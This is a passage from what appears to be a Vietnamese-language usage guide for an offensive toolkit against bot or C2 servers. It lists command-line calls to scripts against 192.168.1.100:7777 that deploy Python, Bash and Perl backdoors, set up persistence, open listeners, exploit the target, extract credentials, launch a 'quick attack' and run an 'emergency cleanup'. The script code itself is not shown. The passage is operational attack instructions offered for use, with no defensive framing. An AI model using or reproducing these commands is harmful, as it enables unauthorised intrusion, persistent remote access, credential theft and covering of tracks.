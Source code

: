 ```bash

# Thông tin C2 servers
python3 scripts/bot_intelligence.py --c2 192.168.1.100:7777

# Interactive mode
python3 scripts/bot_intelligence.py --interactive
```

### 3. **Bot Backdoor** - Tạo backdoor và persistence
```bash
# Deploy Python backdoor
python3 scripts/bot_backdoor.py --deploy 192.168.1.100:7777:python

# Deploy Bash backdoor
python3 scripts/bot_backdoor.py --deploy 192.168.1.100:7777:bash

# Deploy Perl backdoor
python3 scripts/bot_backdoor.py --deploy 192.168.1.100:7777:perl

# Tạo persistence
python3 scripts/bot_backdoor.py --persist 192.168.1.100:7777

# Khởi động listener
python3 scripts/bot_backdoor.py --listener 4444

# Full backdoor attack
python3 scripts/bot_backdoor.py --attack 192.168.1.100:7777

# Interactive mode
python3 scripts/bot_backdoor.py --interactive
```

### 4. **Bot Master Controller** - Tổng hợp tất cả
```bash
# Quét bot
python3 scripts/bot_master_controller.py --scan

# Khai thác bot
python3 scripts/bot_master_controller.py --exploit 192.168.1.100:7777

# Thu thập thông tin tình báo
python3 scripts/bot_master_controller.py --intel 192.168.1.100:7777

# Trích xuất credentials
python3 scripts/bot_master_controller.py --creds 192.168.1.100:7777

# Deploy backdoor
python3 scripts/bot_master_controller.py --backdoor 192.168.1.100:7777

# Khởi động listener
python3 scripts/bot_master_controller.py --listener 4444

# Quick attack
python3 scripts/bot_master_controller.py --quick 192.168.1.100:7777

# Emergency cleanup
python3 scripts/bot_master_controller.py --cleanup

# Hiển thị tools có sẵn
python3 scripts/bot_master_controller.py --tools

# Interactive mode
python3 scripts/bot_master_controller.py --interactive
```